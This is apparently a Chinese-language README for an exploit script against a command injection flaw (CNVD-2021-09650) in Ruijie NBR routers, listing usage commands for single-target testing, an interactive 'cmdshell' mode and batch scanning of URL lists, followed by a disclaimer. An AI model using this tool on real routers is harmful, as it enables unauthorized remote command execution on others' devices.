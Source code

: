# 锐捷NBR路由器远程命令执行漏洞

锐捷NBR路由器接口存在命令注入，攻击者可远程执行命令。


## 漏洞编号

CNVD-2021-09650

## 工具利用

python3 RG_NBR_rce.py -u http://127.0.0.1:1111 单个url测试

python3 RG_NBR_rce.py -c http://127.0.0.1:1111 cmdshell模式

python3 RG_NBR_rce.py -f url.txt 批量检测

![](./CNVD-2021-09650user.png)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
